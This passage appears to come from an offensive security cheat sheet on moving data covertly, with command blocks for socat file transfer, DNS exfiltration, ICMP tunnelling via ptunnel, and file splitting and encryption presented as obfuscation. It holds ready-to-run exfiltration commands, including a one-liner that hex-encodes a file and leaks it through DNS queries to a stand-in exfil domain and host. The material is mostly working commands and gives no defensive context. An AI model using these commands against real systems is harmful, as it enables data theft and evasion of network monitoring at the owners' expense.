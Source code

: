 ### Other Transfer Methods

#### Socat File Transfers

```bash
# Receiving end
socat -u TCP-LISTEN:4444,reuseaddr OPEN:/tmp/file,creat

# Sending end
socat -u OPEN:/path/to/file TCP:10.10.10.10:4444
```

#### Data Exfiltration via DNS

```bash
# Encode file for DNS exfiltration
xxd -p -c 16 /path/to/file | while read line; do host $line.exfil.example.com 10.10.10.10; done

# Server-side: Use tcpdump to capture queries
tcpdump -i eth0 -n "udp port 53"
```

#### ICMP Tunneling

```bash
# Install ptunnel
apt-get install ptunnel

# Server-side
ptunnel -x password

# Client-side
ptunnel -p 10.10.10.10 -lp 8000 -da 192.168.1.100 -dp 22 -x password
ssh -p 8000 localhost
```

### Obfuscation Techniques

#### Split Files for Transfer

```bash
# Split file into 1MB chunks
split -b 1m /path/to/large_file chunk_

# Reassemble file
cat chunk_* > large_file_restored
```

#### Encrypted Transfers

```bash
# Encrypt file before transfer
openssl enc -aes-256-cbc -salt -in /path/to/file -out /path/to/file.enc -k password

# Decrypt file after transfer
openssl enc -aes-256-cbc -d -in /path/to/file.enc -out /path/to/file -k password
```
